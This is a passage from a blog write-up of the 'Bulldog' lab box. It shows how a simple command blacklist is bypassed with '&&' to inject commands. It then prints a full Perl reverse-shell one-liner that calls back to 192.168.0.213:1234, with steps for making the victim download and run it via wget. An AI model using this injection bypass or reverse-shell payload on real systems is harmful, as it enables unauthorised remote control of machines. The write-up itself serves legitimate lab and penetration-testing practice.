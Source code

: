 <a href="/img/blog/bulldog/Bulldog09.png" target="_blank"><img class="centerImgHuge" src="/img/blog/bulldog/Bulldog09.png"></a>

Interesting... Luckily, there are many bypasses for such simple blacklist. For example using encoding (didn't work this time) or some other alternatives such as `&&` (AND operator). All in all, `&&` successfully bypasses the blacklist and gives us the ability to enter any command of our choosing. Wonderful.

Proof:
<a href="/img/blog/bulldog/Bulldog10.png" target="_blank"><img class="centerImgHuge" src="/img/blog/bulldog/Bulldog10.png"></a>
   
Time to get a sweet shell. This writeup is *metesploit-free* which means we will depend on manual exploitation and reverse connection rather than using msfvenom & handler. Sorry!

1. Make a perl file in our webroot (/var/www/html/)
2. Put perl reverse shell payload into our file (look below)
3. Start our apache2 (*/etc/init.d/apache2 start*) or python SimpleHTTPServer
4. Make the victim download our malicious file via wget from the server & run it.

[Perl shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}:
{% highlight perl %}

use Socket;$i="192.168.0.213";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};

{% endhighlight %}

